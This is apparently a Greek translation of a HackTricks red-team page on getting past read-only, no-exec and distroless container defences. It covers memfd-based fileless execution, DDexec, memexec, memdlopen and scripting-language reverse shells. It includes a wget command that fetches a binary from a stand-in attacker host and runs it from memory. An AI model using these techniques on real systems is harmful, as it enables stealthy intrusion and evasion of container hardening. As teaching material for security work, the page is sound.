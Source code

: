 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αν ενδιαφέρεστε για **καριέρα hacking** και να χακάρετε το αχάκωτο - **προσλαμβάνουμε!** (_απαιτείται άριστη γνώση πολωνικών, γραπτά και προφορικά_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

Στα παρακάτω βίντεο μπορείτε να βρείτε τις τεχνικές που αναφέρονται σε αυτή τη σελίδα εξηγημένες πιο αναλυτικά:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec σενάριο

Είναι όλο και πιο συνηθισμένο να βρίσκουμε μηχανές linux που είναι τοποθετημένες με **προστασία συστήματος αρχείων μόνο για ανάγνωση (ro)**, ειδικά σε κοντέινερ. Αυτό συμβαίνει γιατί η εκτέλεση ενός κοντέινερ με σύστημα αρχείων ro είναι τόσο εύκολη όσο η ρύθμιση του **`readOnlyRootFilesystem: true`** στο `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ωστόσο, ακόμα και αν το σύστημα αρχείων είναι τοποθετημένο ως ro, **`/dev/shm`** θα είναι ακόμα εγ writable, οπότε είναι ψευδές ότι δεν μπορούμε να γράψουμε τίποτα στο δίσκο. Ωστόσο, αυτός ο φάκελος θα είναι **τοποθετημένος με προστασία no-exec**, οπότε αν κατεβάσετε ένα δυαδικό αρχείο εδώ **δεν θα μπορείτε να το εκτελέσετε**.

{% hint style="warning" %}
Από την οπτική γωνία μιας κόκκινης ομάδας, αυτό καθιστά **περίπλοκο να κατεβάσετε και να εκτελέσετε** δυαδικά αρχεία που δεν υπάρχουν ήδη στο σύστημα (όπως backdoors ή enumerators όπως το `kubectl`).
{% endhint %}

## Ευκολότερη παράκαμψη: Σενάρια

Σημειώστε ότι ανέφερα δυαδικά αρχεία, μπορείτε να **εκτελέσετε οποιοδήποτε σενάριο** εφόσον ο διερμηνέας είναι μέσα στη μηχανή, όπως ένα **shell script** αν υπάρχει το `sh` ή ένα **python** **script** αν είναι εγκατεστημένο το `python`.

Ωστόσο, αυτό δεν είναι αρκετό για να εκτελέσετε την πίσω πόρτα σας ή άλλα εργαλεία δυαδικών αρχείων που μπορεί να χρειαστεί να εκτελέσετε.

## Παράκαμψη Μνήμης

Αν θέλετε να εκτελέσετε ένα δυαδικό αρχείο αλλά το σύστημα αρχείων δεν το επιτρέπει, ο καλύτερος τρόπος να το κάνετε είναι να **το εκτελέσετε από τη μνήμη**, καθώς οι **προστασίες δεν ισχύουν εκεί**.

### Παράκαμψη FD + exec syscall

Αν έχετε μερικούς ισχυρούς κινητήρες σεναρίων μέσα στη μηχανή, όπως **Python**, **Perl**, ή **Ruby**, μπορείτε να κατεβάσετε το δυαδικό αρχείο για να το εκτελέσετε από τη μνήμη, να το αποθηκεύσετε σε έναν περιγραφέα αρχείου μνήμης (`create_memfd` syscall), ο οποίος δεν θα προστατεύεται από αυτές τις προστασίες και στη συνέχεια να καλέσετε μια **`exec` syscall** υποδεικνύοντας τον **fd ως το αρχείο προς εκτέλεση**.

Για αυτό μπορείτε εύκολα να χρησιμοποιήσετε το έργο [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Μπορείτε να του περάσετε ένα δυαδικό αρχείο και θα δημιουργήσει ένα σενάριο στη δηλωμένη γλώσσα με το **δυαδικό αρχείο συμπιεσμένο και κωδικοποιημένο σε b64** με τις οδηγίες να **αποκωδικοποιήσετε και να αποσυμπιέσετε** σε έναν **fd** που δημιουργείται καλώντας την `create_memfd` syscall και μια κλήση στην **exec** syscall για να το εκτελέσετε.

{% hint style="warning" %}
Αυτό δεν λειτουργεί σε άλλες γλώσσες σεναρίων όπως το PHP ή το Node γιατί δεν έχουν καμία **προεπιλεγμένη μέθοδο για να καλέσουν ωμές syscalls** από ένα σενάριο, οπότε δεν είναι δυνατό να καλέσετε την `create_memfd` για να δημιουργήσετε τον **περιγραφέα μνήμης** για να αποθηκεύσετε το δυαδικό αρχείο.

Επιπλέον, η δημιουργία ενός **κανονικού fd** με ένα αρχείο στο `/dev/shm` δεν θα λειτουργήσει, καθώς δεν θα σας επιτραπεί να το εκτελέσετε επειδή η **προστασία no-exec** θα ισχύει.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) είναι μια τεχνική που σας επιτρέπει να **τροποποιήσετε τη μνήμη της δικής σας διαδικασίας** αντικαθιστώντας το **`/proc/self/mem`**.

Επομένως, **ελέγχοντας τον κώδικα συναρμολόγησης** που εκτελείται από τη διαδικασία, μπορείτε να γράψετε ένα **shellcode** και να "μεταλλάξετε" τη διαδικασία για να **εκτελέσετε οποιονδήποτε αυθαίρετο κώδικα**.

{% hint style="success" %}
**DDexec / EverythingExec** θα σας επιτρέψει να φορτώσετε και να **εκτελέσετε** το δικό σας **shellcode** ή **οποιοδήποτε δυαδικό** από **μνήμη**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Για περισσότερες πληροφορίες σχετικά με αυτή την τεχνική, ελέγξτε το Github ή:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) είναι το φυσικό επόμενο βήμα του DDexec. Είναι ένα **DDexec shellcode demonised**, οπότε κάθε φορά που θέλετε να **τρέξετε ένα διαφορετικό δυαδικό** δεν χρειάζεται να επανεκκινήσετε το DDexec, μπορείτε απλά να τρέξετε το memexec shellcode μέσω της τεχνικής DDexec και στη συνέχεια να **επικοινωνήσετε με αυτόν τον δαίμονα για να περάσετε νέα δυαδικά για φόρτωση και εκτέλεση**.

Μπορείτε να βρείτε ένα παράδειγμα για το πώς να χρησιμοποιήσετε το **memexec για να εκτελέσετε δυαδικά από ένα PHP reverse shell** στο [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Με παρόμοιο σκοπό με το DDexec, η τεχνική [**memdlopen**](https://github.com/arget13/memdlopen) επιτρέπει έναν **ευκολότερο τρόπο φόρτωσης δυαδικών** στη μνήμη για να τα εκτελέσετε αργότερα. Θα μπορούσε ακόμη και να επιτρέπει τη φόρτωση δυαδικών με εξαρτήσεις.

## Distroless Bypass

### Τι είναι το distroless

Τα distroless containers περιέχουν μόνο τα **απαραίτητα ελάχιστα στοιχεία για να τρέξει μια συγκεκριμένη εφαρμογή ή υπηρεσία**, όπως βιβλιοθήκες και εξαρτήσεις χρόνου εκτέλεσης, αλλά αποκλείουν μεγαλύτερα στοιχεία όπως διαχειριστές πακέτων, shell ή συστήματα βοηθητικών προγραμμάτων.

Ο στόχος των distroless containers είναι να **μειώσει την επιφάνεια επίθεσης των containers εξαλείφοντας περιττά στοιχεία** και ελαχιστοποιώντας τον αριθμό των ευπαθειών που μπορούν να εκμεταλλευτούν.

### Reverse Shell

Σε ένα distroless container μπορεί να **μην βρείτε καν `sh` ή `bash`** για να αποκτήσετε μια κανονική shell. Δεν θα βρείτε επίσης δυαδικά όπως `ls`, `whoami`, `id`... όλα όσα συνήθως τρέχετε σε ένα σύστημα.

{% hint style="warning" %}
Επομένως, **δεν θα** μπορείτε να αποκτήσετε μια **reverse shell** ή να **καταγράψετε** το σύστημα όπως συνήθως κάνετε.
{% endhint %}

Ωστόσο, αν το παραβιασμένο container τρέχει για παράδειγμα μια εφαρμογή flask, τότε το python είναι εγκατεστημένο, και επομένως μπορείτε να αποκτήσετε μια **Python reverse shell**. Αν τρέχει node, μπορείτε να αποκτήσετε μια Node rev shell, και το ίδιο με σχεδόν οποιαδήποτε **γλώσσα scripting**.

{% hint style="success" %}
Χρησιμοποιώντας τη γλώσσα scripting μπορείτε να **καταγράψετε το σύστημα** χρησιμοποιώντας τις δυνατότητες της γλώσσας.
{% endhint %}

Αν δεν υπάρχουν **προστασίες `read-only/no-exec`** μπορείτε να εκμεταλλευτείτε τη reverse shell σας για να **γράψετε στο σύστημα αρχείων τα δυαδικά σας** και να τα **εκτελέσετε**.

{% hint style="success" %}
Ωστόσο, σε αυτού του είδους τα containers αυτές οι προστασίες θα υπάρχουν συνήθως, αλλά μπορείτε να χρησιμοποιήσετε τις **προηγούμενες τεχνικές εκτέλεσης μνήμης για να τις παρακάμψετε**.
{% endhint %}

Μπορείτε να βρείτε **παραδείγματα** για το πώς να **εκμεταλλευτείτε κάποιες ευπάθειες RCE** για να αποκτήσετε reverse shells γλωσσών scripting και να εκτελέσετε δυαδικά από τη μνήμη στο [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αν ενδιαφέρεστε για μια **καριέρα hacking** και να χακάρετε το αχάκωτο - **προσλαμβάνουμε!** (_απαιτείται άπταιστη γραπτή και προφορική πολωνική_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
